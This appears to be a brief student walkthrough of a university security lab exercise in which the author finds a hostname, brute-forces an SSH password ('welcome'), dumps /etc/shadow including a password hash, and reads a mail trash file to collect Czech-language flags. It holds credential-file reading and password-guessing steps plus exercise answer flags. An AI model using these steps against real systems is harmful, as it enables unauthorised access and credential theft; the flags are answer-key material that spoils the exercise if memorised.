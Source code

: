 # 07

### bis.fit.vutbr.cz

1.) `grep "bis\|ptest" $HOME -R --text`

  * `jbarber@ptest1.bis.mil`

2.) `ssh jbarber@ptest1.bis.mil`

  * brute forcing password

3.) password is `welcome`

### ptest1.bis.mil

4.) `cat /etc/shadow`

```
root:Ziskali jste tajemstvi A_20-11-16-10-01_2808ed0cf1d2ad2024a572ae6075f14cbe9c4e5103493dc088cf846d0ffa9f0d:17421:0:99999:7:::
bin:*:17110:0:99999:7:::
daemon:*:17110:0:99999:7:::
adm:*:17110:0:99999:7:::
lp:*:17110:0:99999:7:::
sync:*:17110:0:99999:7:::
shutdown:*:17110:0:99999:7:::
halt:*:17110:0:99999:7:::
mail:*:17110:0:99999:7:::
operator:*:17110:0:99999:7:::
games:*:17110:0:99999:7:::
ftp:*:17110:0:99999:7:::
nobody:*:17110:0:99999:7:::
systemd-network:!!:17421::::::
dbus:!!:17421::::::
polkitd:!!:17421::::::
rpc:!!:17421:0:99999:7:::
rpcuser:!!:17421::::::
nfsnobody:!!:17421::::::
postfix:!!:17421::::::
chrony:!!:17421::::::
sshd:!!:17421::::::
jbarber:$6$Gyae4RJI$Jo/tDBWGTXpkK2c6jyDyFR5.7qjMOKc4x1AE7ECEw9iHjBIJNhq/KIbHopY198a98TmOP63odi11s6H9nZWuO1:17834:0:99999:7:::
tss:!!:17834::::::
```

4.) **Ziskali jste tajemstvi A_20-11-16-10-01_2808ed0cf1d2ad2024a572ae6075f14cbe9c4e5103493dc088cf846d0ffa9f0d**

5.) `cat /Mail/Trash`

6.) **Ziskali jste tajemstvi H_20-11-21-32-01_e611160adcc74100c8739ad2525739abda3bdc39e471efdb5b27a01a32d0c32c**
